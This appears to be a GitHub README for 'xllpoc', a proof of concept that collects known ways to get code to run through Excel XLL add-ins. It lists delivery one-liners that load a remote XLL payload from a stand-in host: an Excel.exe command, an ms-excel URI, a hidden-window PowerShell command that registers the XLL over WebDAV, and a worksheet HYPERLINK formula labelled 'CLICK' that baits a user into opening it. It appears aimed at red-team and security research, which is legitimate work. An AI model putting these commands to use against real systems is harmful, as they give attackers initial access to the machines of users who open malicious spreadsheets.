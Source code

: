 # xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH. Not a new concept.

### Credit   
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- @SubTee

### Getting Execution
Put your code in either,
```
dllmain.cpp
 ...
PROCESS_ATTACH
  //Code Here
 ...
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyone favourite oneliner
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```

### To-Do

- Add x64 support
- ...
